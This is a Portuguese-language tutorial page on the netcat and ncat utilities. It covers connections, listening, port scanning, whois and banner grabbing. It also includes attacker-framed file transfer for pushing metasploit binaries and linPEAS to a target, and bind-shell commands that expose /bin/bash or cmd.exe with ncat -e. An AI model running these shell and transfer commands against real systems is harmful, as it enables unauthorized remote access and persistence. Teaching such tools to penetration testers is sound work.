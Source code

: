 ```yaml
---
id: netcat
title: netcat
---
```


O utilitário `nc` (ou netcat) é usado para quase tudo sob o sol envolvendo
soquetes de domínio TCP, UDP ou UNIX. Ele pode abrir conexões TCP, enviar
pacotes UDP, escutar em portas TCP e UDP arbitrárias, fazer varredura de portas
e lidar com IPv4 e IPv6. Ao contrário do `telnet`, o `nc` faz scripts bem e
separa as mensagens de erro no erro padrão, em vez de enviá-las para a saída
padrão, como o `telnet` faz com alguns.

Os usos comuns incluem:

- Proxies TCP simples;
- Clientes e servidores HTTP baseados em shell-script;
- Teste de daemon de rede;
- SOCKS ou HTTP ProxyCommand para SSH;
- E muito, muito mais...

---

## Conectando

Abaixo temos o uso básico do `nc`, utilizando por padrão o protocolo TCP:

```bash
nc 172.16.1.4 110
```

Em alguns casos procisamos de mais informação, por exemplo que a conexão foi
estabelecida e para isso utilizamos o modo verboso passando o argumento `-v`:

```bash
nc -v 172.16.1.4
```

Para efetuar conexões utilizando o protocolo UDP basta utilizar o argumento
`-u`:

```bash
nc -u 127.0.0.1 9000
```

## Escutando

É possível expor uma porta para conexão utilizando o `nc`, porém parece não ser
muito funcional se não utilizado para expor uma shell ou para transferir
arquivos, contudo esse modo pode ser útil para validar portas abertas no
firewall, onde exponho uma porta e verifico se o firewall permite acesso à ela.
Para expor essa porta no alvo utilizamos o argumento `-l`:

```bash
nc -vl 5050
```

Depois podemos utilizar o comando `netstat` para verificar o estado da porta no
sistema alvo:

```bash
netstat -nlpt
```  

Para portas UDP basta utilizar o argumento `-u`:

```bash
nc -vlu 9000
```

## Transferência de arquivo

A transferência de arquivo é muito importante porque o `nc` não possui a função
de expor uma shell, porém o pacote `ncat`, mantido pelo projeto do `nmap`,
possui essa função muito útil. Além disso em muitos momentos temos a necessidade
de subir binários gerados pelo `metasploit` com a intenção de persistir uma
shell ou até mesmo alguns scripts como o `linPEAS` para enumeração.

Para a transferência de arquivos uilizando o `nc` temos dois cenários, um onde o
servidor alvo espera a conexão e no outro caso onde o servidor alvo faz uma
conexão, abaixo teremos os dois exemplos.

### Alvo ← Atacante (Upload)

No servidor alvo:

```bash
nc -lv 5050 > ncat
```

No sistema do atacante:

```bash
nc -v 172.16.2.6 5050 < ncat
```

### Alvo → Atacante (Download)

No sistema do atacante:

```bash
nc -lv 5050 < ncat
```

No servidor alvo:

```bash
nc -v 172.16.2.5 > ncat
```

## Expondo Shell

Expondo shell no Linux:

```bash
ncat -vnlp 5050 -e /bin/bash
```

Expondo shell no Windows:

```bash
ncat -vnlp 5050 -e cmd.exe
```

:::info
Os dois comandos acima são um modelo de shell simples onde devem ser executadas
na máquina alvo.  
Note também que estamos utilizando o `ncat` ao invés do `nc`, sendo que o
primeiro possui mais funções.
:::

Após obter a shell com o `ncat`, podemos chamar um pseudo terminal usando
Python, onde irá melhorar considerávelmente a shell:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

## Escaneando Portas

Para escanear uma porta específica basta utilizar o argumento `-z`:

```bash
nc -vnz 172.16.1.5 22
```

Escaneando um range de portas:

```bash
nc -vnz 172.16.1.5 19-30
```

:::info
Será escaneado da porta 19 até a porta 30.
:::  

Podemos também especificar o *timeout* para cada porta com o argumento `-w`:

```bash
nc -vnz -w2 172.16.1.5 22
```

:::info
Será escaneado levando em consideração um *timeout* de 2 segundos (`-w2`).
:::

Escaneando portas UDP com o argumento `-u`:

```bash
nc -vnzu 172.16.1.5 22
```

## Whois

Com o `nc`também é capaz de fazer pesquisas de domínio diretamente no
registro.br:

```bash
echo "uol.com.br" | nc registro.br 43
```

:::caution
O **registro.br** aceita somentes domínios, ASNs e blocos de IPs brasileiros.  
Para verificação extrangeira utilize o **whois.internic.net**:

```bash
echo "domain google.com" | nc whois.internic.net 43
```

:::

## Banner Grabbing

### HTTP

```bash
$ nc -vn www.alvo.com 80
HEAD / HTTP/1.0
```

### FTP

```bash
$ nc -v 192.168.1.100 21
USER anonymous
PASS anonymous
```

:::info
Sempre teste com usuário `anonymous` e senha `anonymous`.  
Caso o login tenha sido aceito, será retornado o código `230 Login successful`.
:::

:::info
Servidor de teste:

**Domain:** ftp.dlptest.com  
**User:** dlpuser  
**Password:** rNrKYTX9g7z3RgJRmxWuGHbeu

[https://dlptest.com/ftp-test/](https://dlptest.com/ftp-test/)
:::
